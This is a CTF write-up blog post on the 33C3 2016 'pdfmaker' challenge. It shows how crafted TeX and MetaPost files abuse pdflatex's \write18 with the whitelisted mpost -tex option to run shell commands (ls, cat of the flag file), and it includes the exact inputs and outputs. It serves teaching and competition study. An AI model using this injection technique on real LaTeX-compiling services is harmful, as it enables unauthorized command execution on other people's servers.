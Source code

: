 ```yaml
---
layout: post
title: "33C3 CTF 2016: pdfmaker write-up"
date: 2017-02-20 02:21:38 +0000
categories:
    - CTF
description: "Write-up of 33C3 CTF 2016: pdfmaker."
keywords: 33c3, 33c3 ctf, pdflatex, tex, write-up
redirect_from: /p/20170220/
---
```


## pdfmaker (misc 75)

> Just a tiny
> [application](https://archive.aachen.ccc.de/33c3ctf.ccc.ac/uploads/pdfmaker-023c4ad945cb421a8bec1013bddf2bab5f77f77a.tar.xz),
> that lets the user write some files and compile them with pdflatex. What can
> possibly go wrong?
>
> `nc 78.46.224.91 24242`

If you can't download the application, please use this
[link](/downloads/2017/02/20/pdfmaker-023c4ad945cb421a8bec1013bddf2bab5f77f77a.tar.xz).

## What is the goal?

There are some interesting parts in `pdfmaker_public.py`. `initConnection`
copies `flag` file into the `self.directory` with the name of:

``` python
"33C3" + "%X" % randint(0, 2**31) + "%X" % randint(0, 2**31)
```

Since the answer would be in the `33C3XXXXXXXXXXXXXXXX` file, we should get the
list of filenames in its directory. Note that `create` method can create log,
tex, sty, mp, bib files.

## Behavior of `\write18`

[@daehee](https://daehee87.github.io) found this helpful
link:
["Pwning coworkers thanks to LaTeX"](http://scumjr.github.io/2016/11/28/pwning-coworkers-thanks-to-latex/).
According to the post, `\write18` normally executes any program listed in
`shell_escape_commands`:

``` conf
shell_escape_commands = \
bibtex,bibtex8,\
extractbb,\
kpsewhich,\
makeindex,\
mpost,\
repstopdf,\
```

Note that `mpost` is in there, and we can create mp file! As denoted by the
link, `mpost` takes the `-tex` option for text labels, so we can execute
arbitrary program.

<!-- more -->

## Exploitation

I'll explain the exploitation step by step.

At first, we create a tex file that executes `mpost` on compilation. Note that
we specified `bash -c ls>c.log` to the `-tex` option.

```
> create tex x
\documentclass{article}\begin{document}
\immediate\write18{mpost -ini "-tex=bash -c ls>c.log" "x.mp"}
\end{document}
\q
```

Now we create a mp file.

```
> create mp x
verbatimtex
\documentclass{minimal}\begin{document}
etex beginfig (1) label(btex blah etex, origin);
endfig; \end{document} bye
\q
```

Then compile the previous tex file to invoke the `ls` command.

```
> compile x
```

Then we get the list of filename in the directory.

```
> show log c
33C3566BA1153C636C68
c.log
makempx.log
mpxxZmwh.tex
x.aux
x.log
x.mp
x.tex
```

We have to read the content of `33C3566BA1153C636C68` file, so let's create one
more tex file. `bash -c (cat${IFS}33C3566BA1153C636C68)>d.log` will be executed
on compilation.

```
> create tex y
\documentclass{article}\begin{document}
\immediate\write18{mpost -ini "-tex=bash -c (cat${IFS}33C3566BA1153C636C68)>d.log" "x.mp"}
\end{document}
\q
```

Then compile it.

```
> compile y
```

So we can read the log.

```
> show log d
33C3_pdflatex_1s_t0t4lly_s3cur3!
```

So the flag is `33C3_pdflatex_1s_t0t4lly_s3cur3!`.
